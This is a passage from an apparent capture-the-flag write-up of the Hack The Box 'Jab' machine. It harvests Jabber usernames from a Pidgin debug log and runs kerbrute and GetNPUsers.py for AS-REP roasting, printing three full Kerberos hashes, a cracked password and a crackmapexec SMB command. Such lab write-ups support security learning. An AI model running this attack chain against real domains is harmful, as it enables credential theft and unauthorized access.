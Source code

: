 
```bash
pidgin -d 2>&1 >  info_debug.txt 
```


- To obtain a list of users, we will filter the content of the `info_debug.txt` file for email addresses and store them in the `users_jabber.txt` file.


 ```bash
cat info_debug.txt | grep -oP "(\w*@jab\.htb)" | sed 's/@jab.htb//g' | sort -u | sponge users_jabber.txt
```

 - With this list of users from the Jabber service, likely more relevant than a generic list like `xato-net-10-million-usernames.txt`, we can perform an ASREPRoast Attack using tools like `kerbrute` or `GetNPUsers.py`. This resulted in finding 3 ASREP hashes.

```bash
kerbrute userenum -d JAB.HTB --dc 10.10.11.4 users_jabber.txt

GetNPUsers.py JAB.HTB/ -dc-ip 10.10.11.4 -no-pass -usersfile users_jabber.txt
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

<SNIP>
$krb5asrep$23$jmontgomery@JAB.HTB:82ac20f345a89bdd37a8b3c71e16de81$a8ffc1145e6ad780a4457665cd3cc41c4a834fbdf230da473aa5e9ac71f33164aa2483c5a1738769623a6d7da8b4a37c4e7343b66541393de737e25a5531e303515412d7c83cf51f84c618f644a3ae49aba58890dceda272b21fa2f11eaea54c470cfd2a6634c79aef2a251a4c4f5d5c6d9250815f5f73e4093743ad41dce1f467d40c294478727fb7cd8a4d14506e366b0de452c9b27aebf513b05da6665909f82d6501b5fed2eefefdbdec1949167f2f3d962bb22c8ab0b5e00295f1cc0994e0e0e414511c56b32889187652837d951cd6d10061ff21b26b6734f81b7038f010b1
$krb5asrep$23$lbradford@JAB.HTB:f6f16bd0744d399da85720c775bbba95$13d6f41b9734f5ac2d39f58e1b03c9c4fc267e0f2e69c4ad321bd3047153e48acd3173d72de6443b25a4e9c2832aef263d0de61afbc9090da09e0e574227b514cdb2cdf7af74ab8ee21f0fc9032950b5630b7d397340b86b90ed9cb906a82d0bb88f8af94e8a53d4169a973cc7ca309a2c5827f580252bfc72ae71a5233e8c7d3142b55b16a1c2e740853fc9b12b30de7bbb01dc94daf18c5c5e91c7cda72674c42722f1b8ac4997ca3b826ddab0440621bc29e1116b4a1a93e37e7ff6f911680115ebcf3f5fb462eb7af90fdad60b6c85c6f01dc2d54b80f52bbd6ed5f8f74a0d09
$krb5asrep$23$mlowe@JAB.HTB:b0df8e7e87f6f9c24c80c5ba42050cca$eacde3a312aacee6ccec460158d603ced69cd8132017e7f90d25a925d0f7c043fa4a3d091328608b5e1806c6f1fe8ce86f6f5de29e77a359723999b484578ee1ea2f09721dfabeaa1d4be1831f02896831783d434d41b57035e5573333431e4e5b7263f8a350eb0a80e0d22956bfc4bd4314a46f5e82a572eafa2a486e205530dade262881b2903b5db24a35ef8f7d1069681f43835412ef94cd99c4062d663e9bca37258648977aae960171a278b12efb7a1189c01933cab472843b4d3735f6f53ecb7c1c273f021d991043cef0f7415e9a0a5f00d1d6d87053ec404b0b8fb5baf4

```
 
 - Afterward, using `Hashcat`, he managed to crack them, uncovering the credentials for the user `jmontgomery`: `Midnight_121`.
 
 ![](/assets/images/HTB-Writeup-Jab/Pasted image 20240609203915.png)

- With these credentials and utilizing the `crackmapexec` tool, the pentester conducted a search for interesting shares on the SMB service and attempted access via the WinRM service, but without success.

```bash
crackmapexec smb 10.10.11.4 -u 'jmontgomery' -p Midnight_121 --shares
```
